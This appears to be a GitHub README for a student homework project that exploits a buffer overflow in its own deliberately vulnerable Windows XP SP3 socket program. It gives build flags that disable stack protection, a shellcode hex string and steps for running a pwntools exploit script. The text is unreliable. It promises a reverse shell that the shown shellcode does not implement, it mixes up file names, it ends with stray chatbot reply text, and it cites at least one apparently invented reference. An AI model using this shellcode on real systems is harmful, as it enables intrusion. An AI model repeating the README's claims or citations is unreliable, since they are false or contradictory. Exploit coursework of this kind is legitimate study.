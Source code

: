 # Buffer Overflow Example for Windows XP SP3

## Overview

This project demonstrates a **buffer overflow exploit** targeting a vulnerable program on **Windows XP SP3**. The `shell.asm` x86 shellcode creates a new process using `CreateProcessA` with hardcoded API addresses. Designed for **educational purposes**, it highlights how buffer overflows work and how shellcode executes.

**Created for CS166, HW5. Educational purposes only.**

![Buffer Overflow Demo](output.gif)

---

## Features

- **Reverse Shell**: Executes `cmd.exe` and connects back to the attacker.
- **Hardcoded API**: Uses static addresses for Windows XP SP3 functions.
- **Customizable**: Easily update target IP/port for the reverse shell.

---

## Files

- `shell.asm`: Shellcode payload in x86 Intel assembly.
- `bo.c`: Vulnerable program, binds a socket on the given IP and port.
- `exploit.py`: Python script for exploiting the buffer overflow vulnerability.

---

## Usage

### 1. Compile the Vulnerable Program
   Compile the C program using a 32-bit MinGW compiler:
   ```bash
   i686-w64-mingw32-gcc -fno-stack-protector -no-pie -m32 -o bo.exe bo.c -lws2_32
   Usage: .\bo.exe <IP> <PORT> 
   ```

### 2. Compile the Shellcode and Convert to a Hex String
   Assemble the shellcode using NASM and convert it into a hex string:
   ```bash
   nasm -f win32 shellcode.asm -o shellcode.o

   objdump -M intel -d shellcode.o | grep '[0-9a-f]:' | grep -v 'file' | \
   cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
   sed 's/ /\\x/g' | tr -d '\n' | sed 's/^/"/' | sed 's/$/"/g'
   ```

   Example Output:
   ```
   "\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 3. Copy the Hex String into `exploit.py`
   Replace the placeholder buffer in `exploit.py` with the generated hex string:
   ```py
   buf = b"\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 4. Run `exploit.py`
   Install the `pwn` library if not already installed:
   ```bash
   pip install pwntools
   ```

   Execute the exploit:
   ```bash
   python exploit.py
   ```
---

## References (IEEE Style)

[1] E. H. Spafford, "The Internet Worm Incident," *IEEE Software*, vol. 6, no. 3, pp. 58-65, May 1989.

[2] M. Bishop, *Introduction to Computer Security*. Addison-Wesley, 2004.

[3] OWASP, "Buffer Overflow," [Online]. Available: https://owasp.org/www-community/attacks/Buffer_Overflow. [Accessed: Dec. 2, 2024].

[4] A. Finkel, "Understanding and Exploiting Buffer Overflows," *Proc. 22nd IEEE Security Symposium*, pp. 1-10, 2003.

---

## Author

Created by [Your Name or Alias].
```

Replace `YOUTUBE_VIDEO_ID` in the video link with your actual YouTube video ID for embedding. This provides a condensed yet informative README with an academic-style references section. Let me know if you need further adjustments!
